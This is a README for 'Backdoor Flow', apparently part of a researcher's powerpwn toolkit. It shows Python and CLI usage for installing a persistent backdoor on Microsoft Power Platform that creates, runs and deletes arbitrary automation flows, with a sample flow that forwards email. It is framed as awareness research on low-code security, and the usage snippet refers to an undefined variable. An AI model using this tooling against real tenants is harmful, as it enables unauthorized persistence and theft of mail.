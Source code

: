 # Backdoor Flow

[![stars](https://img.shields.io/github/stars/mbrg?icon=github&style=social)](https://github.com/mbrg)
[![twitter](https://img.shields.io/twitter/follow/mbrg0?icon=twitter&style=social&label=Follow)](https://twitter.com/intent/follow?screen_name=mbrg0)
[![email me](https://img.shields.io/badge/michael.bargury-owasp.org-red?logo=Gmail)](mailto:michael.bargury@owasp.org)

Backdoor Flow is a demo showing how to maintain persistency on Power Platform by installing an automation factory that creates, executes and deletes arbitrary commands.

<a href="https://powerautomate.microsoft.com/en-us/robotic-process-automation/"><img src="https://docs.microsoft.com/en-us/power-pages/media/overview/power-platform.png" alt="Power Pwn" width="500" height="250" /></a>

Disclaimer: these materials are presented from an attacker’s perspective with the goal of raising awareness to the risks of underestimating the security impact of No Code/Low Code. No Code/Low Code is awesome.

## Usage
**As a python package**

```python
from powerpwn.powerdoor.backdoor_flow import BackdoorFlow
from powerpwn.powerdoor.samples.forward_email_backdoor_flow import SAMPLE_FLOW
POST_URL = ""
factory = BackdoorFlow(post_url=POST_URL)

flow = factory.create_flow(
    environment_id=SAMPLE_FLOW["environment"], 
    flow_display_name=SAMPLE_FLOW["flowDisplayName"], 
    flow_definition=SAMPLE_FLOW["flowDefinition"], 
    flow_state=SAMPLE_FLOW["flowState"], 
    connection_references=EXAMPLE["connectionReferences"]
)

factory.delete_flow(environment_id=SAMPLE_FLOW["environment"], flow_id=flow["name"])
```

**From powerpwn cli**
* Run `powerpwn exec --help` to get all available commands.
* To create flow run `powerpwn exec create-flow -e {environment-id} -webhook-url {url to installed factory} -i {full path to input}`
	* You can find an example to input file in samples/sample_backdoor_flow_cli_input.json
